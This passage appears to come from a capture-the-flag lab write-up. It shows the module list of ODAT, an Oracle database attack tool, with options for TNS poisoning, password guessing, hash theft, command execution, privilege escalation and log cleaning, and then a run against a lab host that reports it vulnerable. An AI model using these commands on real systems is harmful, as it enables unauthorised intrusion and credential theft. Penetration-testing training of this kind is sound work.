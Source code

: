 ```console
-------------------------------------------

By Quentin Hardy (quentin.hardy@bt.com or quentin.hardy@protonmail.com)

positional arguments:
  {all,tnscmd,tnspoison,sidguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
                      
                      Choose a main command
    all               to run all modules in order to know what it is possible to do
    tnscmd            to communicate with the TNS listener
    tnspoison         to exploit TNS poisoning attack
    sidguesser        to know valid SIDs
    passwordguesser   to know valid credentials
    utlhttp           to send HTTP requests or to scan ports
    httpuritype       to send HTTP requests or to scan ports
    utltcp            to scan ports
    ctxsys            to read files
    externaltable     to read files or to execute system commands/scripts
    dbmsxslprocessor  to upload files
    dbmsadvisor       to upload files
    utlfile           to download/upload/delete files
    dbmsscheduler     to execute system commands without a standard output
    java              to execute system commands
    passwordstealer   to get hashed Oracle passwords
    oradbg            to execute a bin or script
    dbmslob           to download files
    stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
    userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
    smb               to capture the SMB authentication
    privesc           to gain elevated access
    cve               to exploit a CVE
    search            to search in databases, tables and columns
    unwrapper         to unwrap PL/SQL source code (no for 9i version)
    clean             clean traces and logs

optional arguments:
  -h, --help          show this help message and exit
  --version           show program's version number and exit
```

There are many interesting options we can utilize. If you want to be "loud" you can check all the options that will work by selecting the *all* command.
```console
root@EdgeOfNight:~# python odat.py all -s 10.10.10.82 -d XE -U v3ded -P v3ded99

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Testing all modules on the XE SID with the v3ded/v3ded99 account
[2.1] UTL_HTTP library ?
[-] KO
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
[-] KO
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
[2.6] DBMSSCHEDULER library ?
[-] KO
[2.7] CTXSYS library ?
```